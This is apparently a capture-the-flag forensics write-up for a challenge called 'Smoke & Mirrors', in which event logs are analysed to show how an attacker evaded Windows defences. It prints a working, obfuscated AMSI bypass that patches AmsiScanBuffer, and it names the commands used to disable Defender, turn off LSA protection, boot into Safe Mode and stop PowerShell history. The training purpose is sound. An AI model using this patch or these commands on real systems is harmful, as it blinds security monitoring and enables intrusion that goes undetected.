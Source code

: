 
![Gu1lf51dUs](https://github.com/user-attachments/assets/97e78c87-7a08-445e-b837-7e8a11becf59)

# Operation Blackout 2025: Smoke & Mirrors 


## Description
In Smoke & Mirrors, players analyze the provided event logs and forensic artifacts to uncover how the attacker disabled or altered security features. They must identify the tools, commands, or scripts used to reduce visibility and reconstruct the methods the attacker used to operate undetected. 


## Scenario
Byte Doctor Reyes is investigating a stealthy post-breach attack where several expected security logs and Windows Defender alerts appear to be missing. He suspects the attacker employed defense evasion techniques to disable or manipulate security controls, significantly complicating detection efforts. Using the exported event logs, your objective is to uncover how the attacker compromised the system's defenses to remain undetected.


## Artifacts
- Microsoft-Windows-Powershell.evtx - FD0391939810806A2518008B77EDF719B17F55D9AF826329FA1A6310AB00FF41
- Microsoft-Windows-Powershell-Operational.evtx - AFF7286F5ADD8D63F306F927D32F857A3CA8DD5AD4147C3BE4273E7A7017A348
- Microsoft-Windows-Sysmon-Operational.evtx - C1BD14FDF13FB4D64A85FEAD50FB200CCC6F369389DB08DB51477185DEEDBECF


## Skills
- Malicious use of PowerShell cmdlets
- Log Analysis
- Analyze and interpret Windows Registry modifications
- Identify how attackers disable or tamper with Windows security features


## Walkthrough
### Task 1: The attacker disabled LSA protection on the compromised host by modifying a registry key. What is the full path of that registry key?
Filter by "HKLM\SYSTEM" in the Windows PowerShell Operational logs to find were the attacker modified the LSA registry key.


### Task 2: Which PowerShell command did the attacker first execute to disable Windows Defender?
Look in the Windows PowerShell logs for the PowerShell cmdlet of "[Set-MpPreference](https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2025-ps)"; could also search for conditionals with Set-MpPreference such as $true or $false. The first log was executed at '10-04-2025 12:01:35' 


### Task 3: The attacker loaded an AMSI patch written in PowerShell. Which function in the DLL is being patched by the script to effectively disable AMSI?
Search within the Windows-PowerShell-Operational logs for strings relating to '.dll', find that the attacker imported a function named 'Disable-Protection' which modifies 'amsi.dll'. Viewing the full script reveals that it attempts to patch the 'AmsiScanBuffer' function within the DLL.
```PowerShell
CommandInvocation(Add-Type): "Add-Type"
ParameterBinding(Add-Type): name="TypeDefinition"; value="using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}"
```


### Task 4: Which command did the attacker use to restart the machine in Safe Mode?
To restart a windows machine in Safe Mode, the command must include the string 'safeboot', searching the Microsoft-Windows-Sysmon-Operational confirms that the attacker executed "bcdedit.exe /set safeboot network".


### Task 5: Which PowerShell command did the attacker use to disable PowerShell command history logging?
Searching for 'Set-PSReadlineOption' in the Windows PowerShell logs reveals that the attacker set the HistorySaveStyle to SaveNothing.
